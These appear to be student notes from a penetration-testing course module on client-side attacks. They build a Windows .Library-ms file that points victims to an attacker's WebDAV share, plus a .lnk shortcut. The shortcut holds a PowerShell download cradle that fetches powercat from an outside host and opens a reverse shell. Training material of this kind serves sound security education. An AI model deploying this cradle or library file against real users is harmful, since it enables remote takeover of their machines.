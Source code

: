 
### Obtaining Code Execution via Windows Library Files

`.Library-ms` file extensions 

Two-Stage Client Side Attack 
1. Create Windows library file (.Library-ms) with WebDAV share hosted on our VM and send via email
2. WebDAV directory contains (.lnk) payload that will execute PowerShell reverse shell

Begin by setting up WebDAV share on Kali using #wsgiDAV as server

Installing WsgiDAV

```hlt:1
kali@kali:~$ pip3 install wsgidav           
Defaulting to user installation because normal site-packages is not writeable
Collecting wsgidav
  Downloading WsgiDAV-4.0.1-py3-none-any.whl (171 kB)
     ━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━ 171.3/171.3 KB 1.6 MB/s eta 0:00:00
...  
Successfully installed json5-0.9.6 wsgidav-4.0.1
```
<span style="color:rgb(192, 0, 0)">--------------------------------</span>
If the installation of WsgiDAV fails with **error: externally-managed-environment**, we can use a _virtual environment_[3](https://portal.offsec.com/courses/pen-200-44065/learning/client-side-attacks-48976/abusing-windows-library-files-49009/obtaining-code-execution-via-windows-library-files-48979#fn-local_id_87-3) or install the package _python3-wsgidav_ with _apt_.
<span style="color:rgb(192, 0, 0)">-----------------------------------</span>

Next create WebDAV share directory as `/home/kali/webdav` 

```
kali@kali:~$ mkdir /home/kali/webdav
```

Place test.txt in this directory 

```
kali@kali:~$ touch /home/kali/webdav/test.txt
```

Starting WsgiDAV on port 80

```hlt:1,15
kali@kali:~$ /home/kali/.local/bin/wsgidav --host=0.0.0.0 --port=80 --auth=anonymous --root /home/kali/webdav/
Running without configuration file.
17:41:53.917 - WARNING : App wsgidav.mw.cors.Cors(None).is_disabled() returned True: skipping.
17:41:53.919 - INFO    : WsgiDAV/4.0.1 Python/3.9.10 Linux-5.15.0-kali3-amd64-x86_64-with-glibc2.33
17:41:53.919 - INFO    : Lock manager:      LockManager(LockStorageDict)
17:41:53.919 - INFO    : Property manager:  None
17:41:53.919 - INFO    : Domain controller: SimpleDomainController()
17:41:53.919 - INFO    : Registered DAV providers by route:
17:41:53.919 - INFO    :   - '/:dir_browser': FilesystemProvider for path '/home/kali/.local/lib/python3.9/site-packages/wsgidav/dir_browser/htdocs' (Read-Only) (anonymous)
17:41:53.919 - INFO    :   - '/': FilesystemProvider for path '/home/kali/webdav' (Read-Write) (anonymous)
17:41:53.920 - WARNING : Basic authentication is enabled: It is highly recommended to enable SSL.
17:41:53.920 - WARNING : Share '/' will allow anonymous write access.
17:41:53.920 - WARNING : Share '/:dir_browser' will allow anonymous read access.
17:41:54.348 - INFO    : Running WsgiDAV/4.0.1 Cheroot/8.5.2+ds1 Python 3.9.10
17:41:54.348 - INFO    : Serving on http://0.0.0.0:80 ..
```

WebDAV server is running on port 80. 

Contents of WebDAV share after navigating to it in our browser

![Figure 25: Contents of WebDAV share](https://static.offsec.com/offsec-courses/PEN-200/imgs/clientsideattacks/5377fb2c3624ec7bfb55d60f8196895a-csa_sc_webdavbrowser2.png)

Creating the Windows library file from Visual Studio Code on a Windows machine:

Create empty Windows Library file by saving a new text file as `config.Library-ms`

Library files have three main XML components
1. General library information
2. Library properties
3. Library locations

Filling in these components..

XML and Library Description Version

```
<?xml version="1.0" encoding="UTF-8"?>
<libraryDescription xmlns="http://schemas.microsoft.com/windows/2009/library">

</libraryDescription>
```

Next setting:
* <span style="color:rgb(192, 0, 0)">Name tag</span> according to MS website such as `@shell32.dll,-34575` or `@windows.storage.dll,-34582`
* <span style="color:rgb(192, 0, 0)">Version tag</span> can be any number

Name and Version Tags of the Library

```
<name>@windows.storage.dll,-34582</name>
<version>6</version>
```

Next setting
* <span style="color:rgb(192, 0, 0)">i<span style="color:rgb(192, 0, 0)">sLibraryPinned tag</span></span> which pins the library to navigation pain in Windows Explorer
* <span style="color:rgb(192, 0, 0)">iconReference tag</span> determines which icon to display library file

Configuration for Navigation Bar Pinning and Icon

```
<isLibraryPinned>true</isLibraryPinned>
<iconReference>imageres.dll,-1003</iconReference>
```

Next setting
* <span style="color:rgb(192, 0, 0)">templateInfo tags</span> which contain <span style="color:rgb(192, 0, 0)">folderType tags</span> which determine default columns and details that appear in Win Explorer for the library

templateInfo and folderType tags

```
<templateInfo>
<folderType>{7d49d726-3c21-4f05-99aa-fdc2c9474656}</folderType>
</templateInfo>
```

Next setting library locations tags
* <span style="color:rgb(192, 0, 0)">searchConnectorDescriptionList tag</span> which has a list of search connectors defined by <span style="color:rgb(192, 0, 0)">searchConnectorDescription</span> which library files use to specify connection settings to remote location
* <span style="color:rgb(192, 0, 0)">isDefaultSaveLocation tag</span> which determines behavior of Win Explorer when a user saves an item
* <span style="color:rgb(192, 0, 0)">isSupported tag</span> which is used for compatibility
* <span style="color:rgb(192, 0, 0)">url tag</span> which we need to point to our WebDAV share over HTTP


templateInfo and folderType tags

```
<searchConnectorDescriptionList>
<searchConnectorDescription>
<isDefaultSaveLocation>true</isDefaultSaveLocation>
<isSupported>false</isSupported>
<simpleLocation>
<url>http://192.168.119.2</url>
</simpleLocation>
</searchConnectorDescription>
</searchConnectorDescriptionList>
```

Windows Library code for connecting to our WebDAV Share

```
<?xml version="1.0" encoding="UTF-8"?>
<libraryDescription xmlns="http://schemas.microsoft.com/windows/2009/library">
<name>@windows.storage.dll,-34582</name>
<version>6</version>
<isLibraryPinned>true</isLibraryPinned>
<iconReference>imageres.dll,-1003</iconReference>
<templateInfo>
<folderType>{7d49d726-3c21-4f05-99aa-fdc2c9474656}</folderType>
</templateInfo>
<searchConnectorDescriptionList>
<searchConnectorDescription>
<isDefaultSaveLocation>true</isDefaultSaveLocation>
<isSupported>false</isSupported>
<simpleLocation>
<url>http://192.168.119.2</url>
</simpleLocation>
</searchConnectorDescription>
</searchConnectorDescriptionList>
</libraryDescription>
```

Double-Clicking the Windows Library file

![Figure 28: Double-Clicking the Windows Library file](https://static.offsec.com/offsec-courses/PEN-200/imgs/clientsideattacks/7624182b026f1ec571a6f48745f17a76-csa_sc_openlib.png)

Now, put `.lnk` shortcut file on WebDAV server that will trigger a reverse shell. 

Steps:
1. Right-click on desktop and click _New_ then _Shortcut_
2. On the _Create Shortcut_ window, paste the PowerShell Download Cradle & Reverse Shell code:

PowerShell Download Cradle and PowerCat Reverse Shell Execution

```
powershell.exe -c "IEX(New-Object System.Net.WebClient).DownloadString('http://192.168.119.3:8000/powercat.ps1');
powercat -c 192.168.119.3 -p 4444 -e powershell"
```

Creating a Shortcut

![Figure 28: Creating a Shortcut on CLIENT137](https://static.offsec.com/offsec-courses/PEN-200/imgs/clientsideattacks/2ad68e3a33e8ba87b2a27876c2bbf6f5-csa_sc_createshortcut2.png)

Give shortcut the name `automatic_configuration` and click _Finish_

Start #pythonhttpserver on port 8000 in the directory `powercat.ps1` 

Start #netcat listener on port 4444

Double click the shortcut on Windows and catch the reverse shell. 

<span style="color:rgb(96, 225, 146)">Bonus</span>
Uploading the `config.Library-ms` file via #smbclient 

```
kali@kali:~/webdav$ smbclient //192.168.50.195/share -c 'put config.Library-ms'
Enter WORKGROUP\kali's password: 
putting file config.Library-ms as \config.Library-ms (1.8 kb/s) (average 1.8 kb/s)
```

#### LABS

 **Capstone Lab**: Enumerate the _ADMIN_ (VM Group 2 - VM #4) machine and find a way to leverage Windows library and shortcut files to get code execution. Obtain a reverse shell and find the flag on the desktop for the _Administrator_ user. You can use VM #3 of VM Group 2 to prepare your attack.
